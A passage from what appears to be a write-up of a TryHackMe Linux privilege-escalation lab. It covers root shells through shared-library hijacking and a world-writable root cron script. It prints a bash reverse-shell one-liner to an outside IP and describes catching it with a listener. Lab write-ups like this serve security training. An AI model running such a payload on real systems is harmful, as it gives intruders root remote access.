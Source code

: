 Follow the instructions that are given in the write-up to see this exploit in action.

![Compiling Exploit Code](images/thm-linux-privesc/compiling-exploit-code.png)

As we can see we have managed to spawn a root shell.

The same can be done using the LD_LIBRARY_PATH environment variable as well. Follow the steps shown in the write-up.

![Changing Path Variable](images/thm-linux-privesc/changing-env.png)

What if we try using another shared library will the attack still work? Let's find out by trying to use another shared file.

![Same exploit using different Binary File](images/thm-linux-privesc/exploit-different-binary.png)

Initially, when we changed the name of the library file that we created we got an error saying that some function was not found but after adding the function that was required by the library file we were able to get a root shell.

1. **Read and follow along with the above.**

> No answer required

## Task 8: Cron Jobs - File Permissions

Cron jobs are programs or scripts which users can schedule to run jobs at different times automatically. The Cron table (crontab) stores the list of all the cron jobs. The system-wide crontab is located at /etc/crontab.

![Listing Cron Jobs](images/thm-linux-privesc/cron-jobs.png)

By looking at the tasks we can see that two scripts are scheduled to run every minute. Another thing that we observe is that both tasks are scheduled by the "root" user so if we can modify the script the new code will also run with root privileges.

Looking at the permissions on the script file we see that it is writable by anyone. Change the content of the file with the following:

```
#!/bin/bash  
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

**Note:** Replace the IP Address in the script with the TryHackMe VPN IP Address which can be found by running "ip a show tun0" on your Kali machine and looking under Inet.

Then we can set up a listener on your Kali Machine which should give us a root shell (should take less than a minute to get a connection)

![Adding Listener on Script|400](images/thm-linux-privesc/listener-on-cron-script.png)

1. **Read and follow along with the above.**

> No answer required

## Task 9: Cron Jobs - PATH Environment Variable
